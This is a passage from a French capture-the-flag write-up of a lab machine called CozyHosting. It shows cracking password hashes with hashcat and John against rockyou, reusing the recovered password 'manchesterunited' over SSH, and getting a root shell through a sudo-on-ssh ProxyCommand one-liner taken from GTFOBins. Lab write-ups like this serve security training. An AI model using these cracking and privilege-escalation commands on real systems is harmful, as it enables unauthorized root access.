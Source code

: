 Maintenant on fait un crackage avec hashcat :

```console
$ hashcat -O -m 3200 -a 0 hashes.txt -o cracked.txt /usr/share/wordlists/rockyou.txt
```

- -O - activer le noyau optimisé
- -m 3200 - spécifie le type de hash
- -a 0 - attaque en mode dictionnaire
- -o cracked.txt - sauvegarde le hash cracké dans un fichier

N'ayant pas assez de mémoire allouée pour ma machine virtuelle, je tente avec john :
```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt.gz hashes.txt
```

On obtient le mot de passe : `manchesterunited`

## Re-Utilisation de credentials

On utilise le mot de passe précédent pour se connecter en ssh avec le comtpe de `josh`, on obtient le flag user.

## Elevation de privilège
```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/) on trouve une commande à executer pour devenir root : `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`.

```console
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
```
On devient root et on a donc accès au flag.



## Ref

- [feroxbuster](https://github.com/epi052/feroxbuster)
- [IFS](https://en.wikipedia.org/wiki/Input_Field_Separators)
- [Postgres on Spring](https://studygyaan.com/spring-boot/how-to-connect-postgresql-database-in-spring-boot-project)
- [Connection par postgre](https://www.prisma.io/dataguide/postgresql/connecting-to-postgresql-databases#connecting-to-a-local-database-with-psql)
- [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/)